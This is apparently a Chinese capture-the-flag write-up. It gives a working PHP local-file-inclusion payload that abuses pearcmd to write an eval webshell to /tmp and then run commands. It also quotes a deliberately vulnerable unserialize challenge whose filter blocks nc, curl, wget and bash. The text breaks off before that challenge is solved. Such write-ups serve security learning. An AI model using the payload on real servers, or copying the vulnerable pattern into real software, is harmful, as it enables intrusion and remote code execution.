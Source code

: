 提示看`phpinfo.php`

![image-20231024215224955](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20231024215224955.png)

![image-20231024215239939](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20231024215239939.png)

发现register_argc_argv是开启状态，搜索得到是要利用pearcmd命令执行

[具体点这里](https://www.cnblogs.com/Yu--/p/15788689.html)

payload：

```php
?file=/usr/local/lib/php/pearcmd&+config-create+/<?=@eval($_POST['a'])?>+/tmp/1.php
```

各个参数用`+`分开，并传参

这里要用burp及进行传参，用hackbar`>`这些字符会被url编码

![image-20231024220315095](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20231024220315095.png)

上传成功后，我们访问

```
?file=/tmp/1  //题目后面是带着.php的
```

然后进行rce就行了

![image-20231024221039650](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20231024221039650.png)

### R!!!C!!!E!!!

```php
 <?php
highlight_file(__FILE__);
class minipop{
    public $code;
    public $qwejaskdjnlka;
    public function __toString()
    {
        if(!preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|tee|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $this->code)){
            exec($this->code);
        }
        return "alright";
    }
    public function __destruct()
    {
        echo $this->qwejaskdjnlka;
    }
}
if(isset($_POST['payload'])){
    //wanna try?
    unserialize($_POST['payload']);
}
```
